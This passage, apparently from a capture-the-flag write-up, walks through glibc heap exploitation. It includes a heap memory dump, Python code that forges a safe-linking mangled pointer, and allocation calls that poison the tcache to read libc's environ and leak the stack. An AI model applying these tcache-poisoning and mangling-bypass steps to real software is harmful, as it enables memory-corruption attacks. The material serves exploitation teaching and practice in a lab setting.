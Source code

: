 ```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x4242424242424242
0x5565109c02b0:	0x0000000000000000	0x0000000000000051
0x5565109c02c0:	0x00007f17c31d0021	0x5454545454545454
0x5565109c02d0:	0x00005565109c02b0	0x00005565109c02b0 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000051
0x5565109c0310:	0x00007f17c31d0022	0x5454545454545454
0x5565109c0320:	0x0000000000000000	0x0000000000000071 <- Pad 0
0x5565109c0330:	0x00007f12954f1770	0x7c13d35e6a1c315a <- POISON!
0x5565109c0340:	0x5252525252525252	0x5252525252525252
0x5565109c0350:	0x0000000000000000	0x0000000000000461 <- B
0x5565109c0360:	0x00007f17c31d9cc0	0x00007f17c31d9cc0
0x5565109c0370:	0x0000000000000000	0x0000000000000000
0x5565109c0380:	0x0000000000000000	0x0000000000000000
0x5565109c0390:	0x0000000000000000	0x0000000000000071
0x5565109c03a0:	0x0000000000000010	0x5252525252525252
0x5565109c03b0:	0x5252525252525252	0x5252525252525252
0x5565109c03c0:	0x0000000000000000	0x0000000000000041
0x5565109c03d0:	0x0000000000000000	0x0000000000000000
0x5565109c03e0:	0x0000000000000000	0x0000000000000000
0x5565109c03f0:	0x0000000000000000	0x0000000000000000
```
We have arrived at the part where I talk about the shifting stuff. This is so called pointer mangling and was introduced in libc to prevent partial heap overwrites. The mangling works as shown by the equations. Figuring out exactly how it works is an exercise left for the reader :) (it's as easy as a macro in C)

``` py

kjer_smo = leak + 0x330

kje_bi_radi_bli = leak_libc + 0x81f0
ftakni_ga_not = (kjer_smo >> 12 ^ kje_bi_radi_bli)

```

after we have successfully poisoned the tcache we have to make 2 more allocations and the second one will be where malloc should return us a pointer to glibc_environ

# read environ to leak stack

``` py
create(padd(int.to_bytes(35,1,'little')), '96',b'K'*8) ##
create(padd(int.to_bytes(36,1,'little')), '96',b'I'*8) ## this one gets placed in libc_environ since we poisoned the tcache

view_(padd(b'\x24'))
```

With that we have successfully leaked the stack
